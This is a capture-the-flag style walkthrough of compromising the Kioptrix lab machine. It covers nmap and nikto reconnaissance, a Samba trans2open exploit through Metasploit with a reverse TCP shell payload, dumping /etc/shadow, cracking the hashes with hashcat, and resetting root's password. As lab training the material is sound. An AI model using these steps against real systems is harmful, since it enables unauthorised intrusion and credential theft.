**1. Reconnasance**

**1.1 Host Discovery**
First, I identified the the IP address of the Kioptrix machine by `sudo arp-scan -l`. Note that since I was running running on normal user, i needed to use `sudo`. This returned the IP address of Kioptrix machine: `192.168.85.130`



**1.2 Port Scanninb**
To scan all open ports, I ran `nmap -T4 -p- -A 192.168.85.130`.
- `-T4`: faster scan timing (aggressive)
- `-p-`: scan all 65535 ports
- `-A`: enables OS detection, version detection, script scanning, and traceroute



Out of all the ports I obtained, ports 22, 80, 139, 443 appeared to be most promising for further investigation.

**2. Enumeration**

**2.1 Port 80, 443 - Apache/mod_ssl**
Version detection identified the web as **Apache 1.3.20 (Unix)**, **(Red-Hat/Linux) mod_ssl/2.8.4** and **OpenSSL/0.9.6b**.

I checked both http://192.168.85.130/ and https://192.168.85.130/ for port 80 and 443, respectively. However, only port 80 resulted in working interface. port 443 did not respond as expected



Nevertheless, I could not find anything useful here, so I moved on to web vulnerability scanning: `nikto -h http://192.168.85.130`. 



Here, I found out what Apache 1.3.20 and mod_ssl 2.8.4 are vulnerable to, e.g. buffer overflow. Cross-checking with `searchsploit apache 1.3` and `searchsploit mod_ssl` and they both returned the same result.

```
pache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow  | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflo | unix/remote/47080.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflo | unix/remote/764.c
```

Both 'OpenFuck.c' and 'OpenFuckV2.c' enabled me to gain remote shell. But I could not do much.

**2.2 Port 139 - Samba**
Port 139 confirmed Samba server was running but there was no information from `namp`. Hence, I use Metapsloit to search for samba version, `search samba type:auxiliary` then `scanner/smb/smb_version` and got `Samba 2.2.1a` as the result



With `searchsploit samba 2.2`, I saw the repetition of `trans2open`. `searchsploit trans2open` confirms Samba 2.2.1a is exploitable via Metasploit.



**3. Exploitation**
As the target was Linux machine, I picked 

`exploit/linux/samba/trans2open`

After setting `RHOSTS` to target's IP. The default staged payload failed to return a shell so I switched to a non-staged payload resolved this. `LHOSTS` was automatically set to my machine's IP

```
set payload linux/x86/shell_reverse_tcp
```
This successfully returned a root shell:



From the root shell, I dumped the password hashes from /etc/shadow.


**4. Post Exploitation**

**Cracking the hashes**
Running the extracted hash through hash-identifier confirmed the hash type as MD5.



I saved the hash to hash.txt and cracked it with hashcat:

```
hashcat -m 500 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Since hashcat runs on GPU so I decided to stop here

**Changing password**
I tried to change root's password: `passwd root`



Finally, I successfully logged in the kioptrix machine with new password


